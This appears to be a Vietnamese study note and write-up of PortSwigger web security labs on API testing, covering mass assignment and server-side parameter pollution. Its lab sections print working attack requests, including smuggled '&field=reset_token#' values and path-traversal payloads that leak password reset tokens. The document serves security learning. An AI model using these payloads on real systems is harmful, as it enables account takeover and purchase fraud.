


# Kiến thức cần biết:

## API (Application Programming Interface)

- ```REST API``` sử dụng các phương thức HTTP như ```GET, POST, PUT, DELETE, PATCH,...``` Với định dạng dữ liệu như ```JSON```.

- ```API Documentation```: là tài liệu hướng dẫn cách sử dụng API, thường được developer tích hợp vào ứng dụng (có thể là Swagger UI hoặc Redoc)

    • Nó mô tả tất cả các endpoint, method, thông tin request và response

- Tại sao API docs lại nguy hiểm nếu bị lộ?
    • Vì nó có thể tiết lộ các endpoint ẩn không được public trong giao diện user
    • Có thể bị attacker dùng để:
        ○ Gọi các admin feature
        ○ Xóa data
        ○ Gửi request trái phép.


## Mass Assignment

1. Định nghĩa:      
- ```Mass Assignment``` xảy ra khi server nhận dữ liệu JSON và tự động gán tất cả field từ client vào một ```object``` trong backend mà không lọc trước.    
- Ví dụ:       
```json
// JSON client gửi:
{
  "username": "tú",
  "is_admin": true
}
```

-->Nếu server dùng kiểu:
```
user = User(**request.json)
```

Thì bạn vừa "tự gán quyền admin" luôn :))

2. Vì sao nguy hiểm?       
-Các parameter ẩn (Ví dụ: chosen_discount, role, price, status, etc) không có trong form hoặc không cho phép chỉnh

-Nhưng nếu server không filter kĩ, attacker có thể "inject" thêm các field này vào JSON thủ công.

3. Cách nhận biết:      
-So sánh request ```POST/PUT/UPDATE``` với response ```GET``` --> Tìm xem response có field nào mà request không gửi nhưng vẫn xuất hiện

-Nếu có --> Rất có thể server đang "auto-bind" (mass assignment)

## Server-Side Parameter Pollution (SSPP)

- SSPP là khi bạn inject thêm tham số vào phía server bằng cách lợi dụng cách nó xử lý query string từ client.

- Đôi khi, query string (ví dụ: username=administrator) được gắn thẳng vào URL của API nội bộ, mà không được encode kỹ.

- Điều này cho phép attacker:

    • Inject tham số khác

    • Truncate query string (dùng "#")

Ghi đè giá trị field để đánh lừa API nội bộ

-Cách Server xử lý URL sai:

+Nếu server xử lý URL như sau:

```bash
# Sai lầm khi gọi API nội bộ:
requests.get("/api/reset?username=" + userInput)
```

-->Attacker gửi:

```bash
username=administrator%26field=email%23
```

--> Server sẽ gọi:

```bash
/api/reset?username=administrator&field=email#
```

--> Và API backend sẽ hiểu ```field=email```, và bỏ qua phần sau "#"


## SSPP in RESTful API path structure

- RESTful API thường dùng các path như sau:

```bash
/api/v1/users/{username}/field/{field}
```

-->Và nhiều hệ thống build path bằng cách nối chuỗi như sau:
```bash
"/api/v1/users/" + username + "/field/" + field
```


*SSPP trong RESTful API là gì?

-Nếu user input (như username) được nối trực tiếp vào đường dẫn API nội bộ, attacker có thể:

    • Thêm "segment" lạ vào đường dẫn

    • Hoặc dùng "../" , "./" , "%23"(#) để redirect / truncate / override URL path

## Openapi.json

-Là 1 file API document được viết theo chuẩn ```OpenAPI Specification``` (OAS), trước đây được gọi là ```"Swagger"```

-->Đây là bản mô tả toàn bộ API backend của server - giống như "sơ đồ blueprint" cho RESTful API

-File "openapi.json" thường chứa:

    • Tất cả các endpoint  (URL)

    • Các HTTP method hỗ trợ (GET, POST, PATCH,...)

    • Các parameter: path param, query param, body param,...

    • Các data  type, schema, response mẫu,...


-Ví dụ:

```bash
{
  "paths": {
    "/api/users/{username}/field/{field}": {
      "get": {
        "parameters": [
          {
            "name": "username",
            "in": "path"
          },
          {
            "name": "field",
            "in": "path"
          }
        ]
      }
    }
  }
}
```

--> Nghĩa là server support ```"GET /api/users/:username/field/:field"```

-Không phải file cũng tên là ```openapi.json```, có thể tồn tại ở vài cái tên khác như:

|File  | 	Mục đích|
|openapi.json  |	Chuẩn định dạng JSON cho OpenAPI|
|swagger.json  |	Tên cũ của OpenAPI|
|openapi.yaml  |	Cùng nội dung, nhưng là YAML|
|swagger.yaml  |	Tên YAML của bản Swagger|

-Có thể ở phía website, request được gửi đi có dạng:

```GET /edit_profile.php?name=peter```

-Nhưng ở phía server-side request lại xử lý:
```GET /api/private/users/peter```


## Some way to Server-side parameter polution in structured format

- Ở đây ta đề cập tới JSON format

- Cách 1:


==>Tức là thêm thêm dấu phẩy rồi chèn các data vào đằng sau

==>Giống sqli phết

- Cách 2: Nếu client-side xử lý theo dạng JSON data (Mỗi giá trị đều được gán dấu ")  -->Dùng \


==>Tức là dùng thêm dấu forwarded slash ("\") để escape kí tự double quote (") 


# Lab API Testing:

## Lab: Exploiting an API endpoint using documentation

**END goals**: Delete user "carlos" via endpoint explosed in API documentation

- Khi đăng nhập vào bằng credential cho trước, ta thấy có 1 file js với endpoint: ```/resources/js/api/changeEmail.js```

```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 1222

const clearErrors = () => {
    [...document.getElementsByClassName('error-message')].forEach(e => e.parentNode.removeChild(e));
};

const displayErrorMessage = (form) => (message) => {
    clearErrors();

    const errorDiv = document.createElement('div');
    errorDiv.setAttribute('class', 'error-message')

    const newWarning = document.createElement('p');
    newWarning.setAttribute('class', 'is-warning');

    newWarning.textContent = message;

    errorDiv.appendChild(newWarning);

    form.parentNode.insertBefore(errorDiv, form);
};

const handleResponse = (showError) => (response) => {
    if (response.error) {
        showError(`${response.type}: ${response.error} (${response.code})`);
    } else {
        window.location.reload();
    }
}

const changeEmail = (form, e) => {
    e.preventDefault();

    const formData = new FormData(form);
    const username = formData.get('username');
    const email = formData.get('email');

    fetch(
        `${form.action}/${encodeURIComponent(username)}`,
        {
            method: 'PATCH',
            body: JSON.stringify({ 'email': email })
        }
    )
        .then(res => res.json())
        .then(handleResponse(displayErrorMessage(form)));
};
```

- Ở đoạn code trên, ta focus vào hàm ```changeEmail```:

```bash
fetch(
        `${form.action}/${encodeURIComponent(username)}`,
        {
            method: 'PATCH',
            body: JSON.stringify({ 'email': email })
        }
    )
```

- Chức năng của nó là gửi request PATCH để thay đổi email của user, lấy dữ liệu từ form ```'username'``` và ```'email'```

- Tạo request PATCH đến endpoint: ```'formaction' + '/' + 'username'```

- Mà ta f12 trên trang web, thấy có action = "/api/user"


==> Kết quả ta có 1 endpoint: ```/api/user/username```

==> Giờ ta redirect tới endpoint: "/api" để đọc api document:


==>Thấy có method DELETE ta gửi gói tin:


## Lab: Finding and exploiting an unused API endpoint

**END goals**: exploit a hidden API endpoint to buy a Lightweight l33t Leather Jacket.

KHAI THÁC BAN ĐẦU:

-Khi vào lab, ta bắt gặp 1 endpoint khá thú vị: **"/resources/js/api/productPrice.js"** với nội dung:

```bash
const Container = class {
    constructor(message, innerClasses, outerClasses) {
        this.message = message;
        this.innerClasses = innerClasses;
        this.outerClasses = outerClasses;
    }

    #build() {
        const outer = document.createElement('div');
        outer.setAttribute('class', this.outerClasses.join(' '))

        const inner = document.createElement('p');
        inner.setAttribute('class', this.innerClasses.join(' '));
        inner.innerHTML = this.message;

        outer.appendChild(inner);

        return outer;
    }

    static Error(message) {
        return new Container(message, ['is-warning'], ['error-message', 'message-container']).#build();
    }

    static ProductMessage(message) {
        return new Container(message, ['product-messaging-content'], ['product-messaging-banner', 'message-container']).#build();
    }

    static RemoveAll() {
        [...document.getElementsByClassName('message-container')].forEach(e => e.parentNode.removeChild(e));
    }
};

const getAddToCartForm = () => {
    return document.getElementById('addToCartForm');
};

const setPrice = (price) => {
    document.getElementById('price').innerText = price;
};

const showErrorMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.Error(message), target);
};

const showProductMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.ProductMessage(message), target);
};

const handleResponse = (target) => (response) => {
    if (response.error) {
        showErrorMessage(target, `Failed to get price: ${response.type}: ${response.error} (${response.code})`);
    } else {
        setPrice(response.price);
        if (response.message) {
            showProductMessage(target, response.message);
        }
    }
};

const loadPricing = (productId) => {
    const url = new URL(location);
    fetch(`//${url.host}/api/products/${encodeURIComponent(productId)}/price`)
        .then(res => res.json())
        .then(handleResponse(getAddToCartForm()));
};

window.onload = () => {
    const url = new URL(location);
    const productId = url.searchParams.get('productId');
    if (url.pathname.startsWith("/product") && productId != null) {
        loadPricing(productId);
    }
};
```

- Ta focus vào đoạn cuối:

```bash
const loadPricing = (productId) => {
    const url = new URL(location);
    fetch(`//${url.host}/api/products/${encodeURIComponent(productId)}/price`)
        .then(res => res.json())
        .then(handleResponse(getAddToCartForm()));
};

window.onload = () => {
    const url = new URL(location);
    const productId = url.searchParams.get('productId');
    if (url.pathname.startsWith("/product") && productId != null) {
        loadPricing(productId);
    }
};
```

- Đoạn window.onload = () => {...} là trigger, nếu đường dẫn đang là "/product" và có ```?productId!=NULL``` thì nó sẽ gọi hàm "loadPricing" 

==>Gọi API ```"/api/products/productId/price"```

-Giờ ta thử thêm jacket vào giỏ hàng sau đó thanh toán, vào Burp xem thấy 1 gói tin khớp với khảo sát ban đầu của mình:


-Thử đổi xóa lần lượt các endpoint nhưng không tìm ra được gì cả

==>Tiếp theo ta đổi HTTP method thành ```OPTIONS``` để dò các request được support:


==>Thấy cho phép 2 method trong đó có method PATCH

-Thử đổi thành PATCH:


==>Thấy thông báo chỉ support Content-Type: application/json

==>Thêm nó vào:


==>Error message báo rằng cần parameter "price"

==>Thêm price vào:


==>Giá trị của "price" phải là dạng integer


- Vào lại homepage xem có gì thay đổi:


==>Giá tiền đã được đổi thành 0.1$

==>Giờ cho "price":0 là mua được rùi!

==>Solve lab


## Lab: Exploiting a mass assignment vulnerability

**END goals**: find and exploit a mass assignment vulnerability to buy a Lightweight l33t Leather Jacket.

- Sau khi đăng nhập với credential cho trước, ta thử đặt hàng --> Bị lỗi do không đủ tiền :))

-Giờ vào Burp xem các request, phát hiện được 2 request thú vị:


Và 1 request POST: 


-Ta thấy parameter ```"chosen_discount"``` có trong GET response nhưng không có trong POST request


==> Dự đoán ```"chosen_discount"``` là field ẩn, có thể đang dính ```"mass assignment"```

==>Chèn thêm ```"chosen_discount"``` sau đó gửi lại POST request:



==> "chosen_discount" thực sự đã gây ra error

==>Có ảnh hưởng trực tiếp tới server

==>Đổi thành 100:



==>SOLVED

## Lab: Exploiting server-side parameter pollution in a query string

**END goals**: log in as the administrator and delete carlos

- Do không có credential, ta thử gửi 1 request ```forgot-password``` cho administrator:


--> Nhận response bình thường

-Tiếp theo, thử chèn thêm "hehe" vào sau administrator:


-->Lỗi "Invalid username"

--> Server có check username 

-Ta thử inject "&" (được encode) để thử thêm tham số:


--> Lỗi "Parameter is not supported"

==> Chứng tỏ server có thể đang dùng query string như ```".....?username=...&hehe"```

-Ta thử thay "&" bằng "#" (được encode) để thử truncate query string:


--> Lỗi "Field not specified"

==> Server kỳ vọng có field nào đó nhưng không thấy

-Dùng Burp Intruder để brute-force các parameter phổ biến với wordlist: Server-side variable names 

(https://github.com/antichown/burp-payloads/blob/master/Server-side%20variable%20names.pay):


==>Ta tìm được 1 parameter có response length khác với các request khác là "field"

```bash
POST /forgot-password HTTP/2
Host: 0a68000404a93ba1807ed2d100960020.web-security-academy.net
Cookie: session=oHQs3tBIMJlaqhY23Nxwrhyczb80FMY9
Content-Length: 73
Content-Type: x-www-form-urlencoded
csrf=uT6nd0BmDi3D8fIFcqMXFLbDVGQwuoDM&username=administrator%26field=hehe
```

```bash
{"type":"ClientError","code":400,"error":"Invalid field."}
```

--> error: "Invalid field" 
-->Server có support parameter này

- Tiếp tục brute-force giá trị của field với list ở trên, ta lấy được 4 response bất thường: username, email, type, error. 

```bash
POST /forgot-password HTTP/2
Host: 0a68000404a93ba1807ed2d100960020.web-security-academy.net
Cookie: session=oHQs3tBIMJlaqhY23Nxwrhyczb80FMY9
Content-Length: 77
Content-Type: x-www-form-urlencoded
csrf=uT6nd0BmDi3D8fIFcqMXFLbDVGQwuoDM&username=administrator%26field=username
```

```bash
{"result":"administrator","type":"username"}
```

-Ta nhìn lại 1 đoạn JS ```"forgotPassword.js"``` để tìm hiểu cách hoạt động của chức năng forgot password:

```bash
let forgotPwdReady = (callback) => {
    if (document.readyState !== "loading") callback();
    else document.addEventListener("DOMContentLoaded", callback);
}

function urlencodeFormData(fd){
    let s = '';
    function encode(s){ return encodeURIComponent(s).replace(/%20/g,'+'); }
    for(let pair of fd.entries()){
        if(typeof pair[1]=='string'){
            s += (s?'&':'') + encode(pair[0])+'='+encode(pair[1]);
        }
    }
    return s;
}

const validateInputsAndCreateMsg = () => {
    try {
        const forgotPasswordError = document.getElementById("forgot-password-error");
        forgotPasswordError.textContent = "";
        const forgotPasswordForm = document.getElementById("forgot-password-form");
        const usernameInput = document.getElementsByName("username").item(0);
        if (usernameInput && !usernameInput.checkValidity()) {
            usernameInput.reportValidity();
            return;
        }
        const formData = new FormData(forgotPasswordForm);
        const config = {
            method: "POST",
            headers: {
                "Content-Type": "x-www-form-urlencoded",
            },
            body: urlencodeFormData(formData)
        };
        fetch(window.location.pathname, config)
            .then(response => response.json())
            .then(jsonResponse => {
                if (!jsonResponse.hasOwnProperty("result"))
                {
                    forgotPasswordError.textContent = "Invalid username";
                }
                else
                {
                    forgotPasswordError.textContent = `Please check your email: "${jsonResponse.result}"`;
                    forgotPasswordForm.className = "";
                    forgotPasswordForm.style.display = "none";
                }
            })
            .catch(err => {
                forgotPasswordError.textContent = "Invalid username";
            });
    } catch (error) {
        console.error("Unexpected Error:", error);
    }
}

const displayMsg = (e) => {
    e.preventDefault();
    validateInputsAndCreateMsg(e);
};

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

- Để ý ở hàm:

```bash
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
}
```

==> Thấy Nếu URL chứa parameter ```"?reset_token"``` --> Redirect sang ```"/forgot-password?reset_token=..."```

==>Có 1 param ẩn là: ```"reset_token"```

==>Thử gửi 1 request:

```bash
POST /forgot-password HTTP/2
Host: 0a68000404a93ba1807ed2d100960020.web-security-academy.net
Cookie: session=oHQs3tBIMJlaqhY23Nxwrhyczb80FMY9
Content-Length: 80
Content-Type: x-www-form-urlencoded
csrf=uT6nd0BmDi3D8fIFcqMXFLbDVGQwuoDM&username=administrator%26field=reset_token
```

```bash
{"result":"oubag1ymsdpldk07a0cd1h2mooxunpjk","type":"reset_token"}
```

==> Ta lấy được giá trị của ```reset_token```

==>Gửi 1 request:

```bash
GET /forgot-password?reset_token=bqaekielxqvkqu0cl0hudw4rosstfb6h HTTP/2
```

==>Đổi mật khẩu và đăng nhập vào admin --> Xóa ```"carlos"``` user --> Solved


## Lab: Exploiting server-side parameter pollution in a REST URL

**END goals**: log in as "administrator" and deleter "carlos"

```bash
-Gửi request forgot-password cho administrator:
POST /forgot-password HTTP/2
Host: 0a24002d04ac4bdf80c28a1300700062.web-security-academy.net
Cookie: session=dftzj227liUkkDGpFsU0pNInIw9LWX7Z
Content-Length: 60
Content-Type: x-www-form-urlencoded
csrf=IZ8HJUQ5roI5jKwCtC6XdbqF0e9y9khQ&username=administrator
```

```bash
{"type":"email","result":"*****@normal-user.net"}
```

- Thử các payload để tìm hiểu cách server xử lý input:
    - Username=administrator%23--> 
    ```bash
    {
      "type": "error",
      "result": "Invalid route. Please refer to the API definition"
    }
    ```

    - ```Username=administrator%3F (?)``` --> Lỗi tương tự

-->Path bị lỗi --> Gợi ý username được nhét vào URL path của request nội bộ

    • Username=./administrator --> Bình thường

-->Giữ nguyên segment administrator

    • Username=../administrator --> Lỗi

--> Cố gắng path traversal ngược lên thư mục cha sau đó đọc file ```"openapi.json"```

-->Giờ ta traversal cho đến khi thoát khỏi API root (về ~)


==>Đã về root --> Ta sẽ thay administrator thành openapi.json

```bash
POST /forgot-password HTTP/2
Host: 0a24002d04ac4bdf80c28a1300700062.web-security-academy.net
Cookie: session=dftzj227liUkkDGpFsU0pNInIw9LWX7Z
Content-Length: 77
Content-Type: x-www-form-urlencoded
csrf=IZ8HJUQ5roI5jKwCtC6XdbqF0e9y9khQ&username=../../../../../openapi.json%23
```

```bash
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```

--> Ta thấy response có chứa path xử lý của server-side:

```bash
/api/internal/v1/users/{username}/field/{field}\
```

-Ta lại đọc file forgotPassword.js, thấy có 1 parameter lạ tên: ```passwordResetToken```

==>Gửi request sau:

```bash
POST /forgot-password HTTP/2
Host: 0a24002d04ac4bdf80c28a1300700062.web-security-academy.net
Cookie: session=dftzj227liUkkDGpFsU0pNInIw9LWX7Z
Content-Length: 125
Content-Type: x-www-form-urlencoded
csrf=IZ8HJUQ5roI5jKwCtC6XdbqF0e9y9khQ&username=../../../../../api/internal/v1/users/administrator/field/passwordResetToken%23
```

```bash
{
  "type": "passwordResetToken",
  "result": "gngb32j3752brlva9bhfpkbeqbn743l1"
}
```

==>Phần còn lại như lab trước đó.